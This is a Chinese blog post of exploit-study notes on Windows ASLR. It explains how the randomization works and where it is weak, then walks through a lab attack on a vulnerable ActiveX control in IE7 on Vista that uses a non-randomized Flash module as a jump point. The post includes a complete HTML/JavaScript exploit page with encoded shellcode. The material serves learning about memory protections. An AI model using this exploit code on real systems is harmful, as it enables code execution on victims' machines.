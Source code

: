 ```yaml
---
title: 漏洞学习笔记-017-ASLR简介
description: ASLR技术的介绍和简单攻击思路
date: 2020-11-24 21:12:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-017-aslr简介/)

## ASLR技术简介

> 纵观前面介绍的所有漏洞利用方法都有着一个共同的特征：都需要确定一个明确的跳转地址。无论是JMP ESP等通用跳板指令还是Ret2Libc使用的各指令，我们都要先确定这条指令的入口点。所谓惹不起躲得起，微软的ASLR(Address Space Layout Randomization)技术就是通过加载程序的时候不再使用固定的基址加载，从而干扰shellcode定位的一种保护机制
>
> 实际上ASLR的概念在Windows XP时代就已经提出来了，只不过XP上面的ASLR功能很有限，只是对PEB和TEB进行了简单的随机化处理，而对于模块的加载基址没有进行随机化处理，直到Windows Vista出现后，ASLR才真正开始发挥作用
>
> 与SafeSEH类似ASLR的实现也需要程序自身的支持和操作系统的双重支持，其中程序的支持不是必需的

- 支持ASLR的程序在它的PE头中会设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识来说明其支持ASLR。微软从Visual Studio 2005 SP1开始加入了`/dynamicbase`链接选项来帮我们完成这个任务，我们只需要在编译程序的时候启用`/dynmicbase`链接选项，编译好的程序就支持ASLR了

### 映像随机化

- 映像随机化是在PE文件映射到内存时，对其加载的虚拟地址进行随机化处理，这个地址是在系统启动时确定的，系统重启后这个地址会变化
- 可能是出于兼容性的考虑，微软在系统中设置了映像随机化的开关，用户可以通过设置注册表中`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionM anager\MemoryManagement\MoveImages`的键值来设定映像随机化的工作模式
  - 设置为`0`时映像随机化将禁用
  - 设置为`−1`时强制对可随机化的映像进行处理，无论是否设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识
  - 设置为其他值时为正常工作模式，只对具有随机化处理标识的映像进行处理
  - 如果注册表中不存在`MoveImages`，大家可以手工建立名称为`MoveImages`，类型为`DWORD`的值，并根据需要设置它的值

### 堆栈随机化

- 这项措施是在程序运行时随机的选择堆栈的基址，与映像基址随机化不同的是堆栈的基址不是在系统启动的时候确定的，而是在打开程序的时候确定的，也就是说同一个程序任意两次运行时的堆栈基址都是不同的，进而各变量在内存中的位置也就是不确定的
- 将以下程序在VS2008中编译，在XP和Vista上分别运行两次，得到如下图的结果

```cpp
int main()
{
  char* heap = (char *)malloc(100);
  char stack[100];
  printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x", heap, stack);
  getchar();

  return 0;
}
```

![Windows Vista](https://s3.ax1x.com/2020/11/24/DtT6JK.png)
![Windows XP](https://s3.ax1x.com/2020/11/24/DtTyi6.png)

- 可以看出，Vista上堆地址相去甚远，而XP上完全相同

### PEB和TEB的随机化

- 获取当前进程的TEB和PEB很简单，TEB存放在`FS:0`和`FS:[0x18]`处，PEB存放在TEB偏移`0x30`的位置，可以通过如下代码来获取当前进程的TEB和PEB

```cpp
int main()
{
    unsigned int teb;
    unsigned int peb;

    __asm
    {
        mov eax, FS:[0x18]
        mov teb, eax
        mov eax, dword ptr[eax+0x30]
        mov peb, eax
    }
    printf("PEB:%#x\nTEB:%#x", peb, teb);
    getchar();

    return 0;
}
```

- 在Vista上测试运行，结果如图

![PEB/TEB-random-Vista](https://s3.ax1x.com/2020/11/24/DtL3Ct.png)

- 可以看出，效果非常差劲，PEB地址只随机化了一个字节，而且还是非常有规律，TEB基本没变过

### ASLR的缺陷

- 不难看出，ASLR随机化映像的时候，虽然模块的加载基址改变了，但是各个模块的入口点的低位两个字节是不会改变的，举例：原基址：`0x00401234`，随机化后基址变为：`0x67291234`，因此可以以此攻击它

## 攻击未启用ASLR的模块

### 准备工作

> 实验环境：Windows Vista SP0，IE7，Adobe Flash Player 9.0.124

- 虽然书上要求使用9.0.262版本，但是实在是找不到，就以9.0.124来替代了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)
- 存在漏洞的OCX控件在之前的实验中已经编译了一个了，因此就使用那个了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH.ocx)，此控件ctrl class object id：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### 步骤

- 重启系统查看ASLR模块启用情况

![ASLR未启用情况](https://s3.ax1x.com/2020/11/26/D0Nlod.png)

- 实验控件未启用GS
- 通过IE7加载POC页面和Flash9k.ocx
- 函数test存在栈溢出漏洞，目标是覆盖函数的 返回地址
- 因为Flash9k.ocx未启用ASLR因此加载基址固定，可以在里面搜寻合适的跳板指令跳转到shellcode
- IE7的DEP是关闭的，因此不考虑DEP的影响
- 因为通过覆盖函数返回地址实现攻击，因此最佳的跳板指令是JMP ESP
- `0x301D606B`也是`JMP ESP`，执行后将会跳转到字符串的头部，但是问题是`6B 60 1D 30`四个字节正好构成一句汇编指令`imul esp,dword ptr ds:[eax+0x1D],0x30`，它将会把后两个操作数相乘，随后放到第一个操作数中，因此需要保持`[eax+0x1D]`的值是正确的，而目前eax并未指向有效地址，因此需要修复eax
- 很可惜，没有找到合适的修复eax的指令，换地址
- `0x303911D3`也是`JMP ESP`，但它组成的汇编代码将会同时读取EC和EAX的内容，因此这两个寄存器都需要修复，不可行，换指令
- `JMP ESP`没有，改用`JMP ESI`，地址`0x3000DCD2`中包含0，直接排除，地址`0x302420C3`最后一个字节是retn，无法使用，排除，地址`0x3028EE6E`汇编代码将直接引起异常，排除，此指令也没有合适的了，因此寻找其它合适指令
- 位于地址`0x300942F2`的`CALL ESP`貌似正合适，它也会将esp增加8个字节正好避开了垃圾数据
- 以下是改变以后的shellcode

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var s = "\u9090";

	while (s.length < 54)
	{
		s += "\u9090";
	}

	s += "\u42F2\u3009";
	s += "\u9090\u9090";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>

</body>
</html>
```

- 如图，重启系统，shellcode运行正常，这意味着攻击ASLR成功

![shellcode运行成功](https://s3.ax1x.com/2020/11/26/D0oYUH.png)
